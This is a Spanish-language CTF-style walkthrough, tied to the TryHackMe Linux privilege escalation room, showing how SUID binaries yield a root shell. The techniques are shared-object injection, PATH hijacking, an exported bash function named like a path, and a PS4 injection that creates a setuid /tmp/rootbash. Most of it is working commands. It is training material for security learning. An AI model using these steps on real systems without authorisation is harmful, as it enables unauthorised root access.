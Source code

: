 # SUID/SGID

## Executables Known Exploit

Encuentra todos los ejecutables SUID/SGID en la máquina virtual Debian:

find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null

Se puede buscar los exploit de los programas que aparezcan.

## Executables Shared Object Injection

El ejecutable SUID /usr/local/bin/suid-so es vulnerable a la inyección de objeto compartido.

```bash
/usr/local/bin/suid-so
```

Ejecuta strace en el archivo y busca en la salida las llamadas a open/access y los errores de "no existe tal archivo":

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Observa que el ejecutable intenta cargar el objeto compartido /home/user/.config/libcalc.so dentro de nuestro directorio personal, pero no puede encontrarlo.

Crea el directorio .config para el archivo libcalc.so:

```bash
mkdir /home/user/.config
```

El código de objeto compartido de ejemplo se puede encontrar en /home/user/tools/suid/libcalc.c. Simplemente genera una shell de Bash. Compila el código en un objeto compartido en la ubicación donde el ejecutable suid-so estaba buscando:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Ejecuta nuevamente el ejecutable suid-so y toma nota de que esta vez, en lugar de una barra de progreso, obtenemos una shell de root.

```bash
/usr/local/bin/suid-so
```

## Executables Environment Variables

El ejecutable SUID /usr/local/bin/suid-env puede ser explotado debido a que hereda la variable de entorno PATH del usuario e intenta ejecutar programas sin especificar una ruta absoluta.

Primero, ejecuta el archivo y observa que parece estar intentando iniciar el servidor web apache2:

```bash
/usr/local/bin/suid-env
```

Ejecuta el comando strings en el archivo para buscar cadenas de caracteres imprimibles:

```bash
strings /usr/local/bin/suid-env
```

Una línea ("service apache2 start") sugiere que el ejecutable service está siendo llamado para iniciar el servidor web, sin embargo, no se está utilizando la ruta completa del ejecutable (/usr/sbin/service).

Compila el código ubicado en /home/user/tools/suid/service.c en un ejecutable llamado service. Este código simplemente genera una shell de Bash:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Antepón el directorio actual (o donde se encuentre el nuevo ejecutable service) a la variable de entorno PATH, y ejecuta el ejecutable suid-env para obtener una shell de root:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

## Executables Abusing Shell Features

El ejecutable /usr/local/bin/suid-env2 es idéntico a /usr/local/bin/suid-env, excepto que utiliza la ruta absoluta del ejecutable service (/usr/sbin/service) para iniciar el servidor web apache2.

Verifica esto con el comando strings:

```bash
strings /usr/local/bin/suid-env2
```

En las versiones de Bash <4.2-048, es posible definir funciones de shell con nombres que se asemejan a rutas de archivo, luego exportar esas funciones para que se utilicen en lugar de cualquier ejecutable real en esa ruta de archivo.

Verifica la versión de Bash instalada en la máquina virtual Debian y asegúrate de que sea inferior a 4.2-048:

```bash
/bin/bash --version
```

Crea una función de Bash con el nombre "/usr/sbin/service" que ejecute una nueva shell de Bash (usando -p para que se conserven los permisos) y exporta la función:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Ejecuta el ejecutable suid-env2 para obtener una shell de root:

```bash
/usr/local/bin/suid-env2
```

Cuando está en modo de depuración, Bash utiliza la variable de entorno PS4 para mostrar un indicador adicional para declaraciones de depuración.

Ejecuta el ejecutable /usr/local/bin/suid-env2 con la depuración de bash habilitada y la variable PS4 establecida en un comando incrustado que crea una versión SUID de /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Ejecuta el ejecutable /tmp/rootbash con -p para obtener una shell que se ejecuta con privilegios de root:

```bash
/tmp/rootbash -p
```

<mark style="color:red;">**CTF**</mark>

{% embed url="https://tryhackme.com/r/room/linuxprivesc" %}
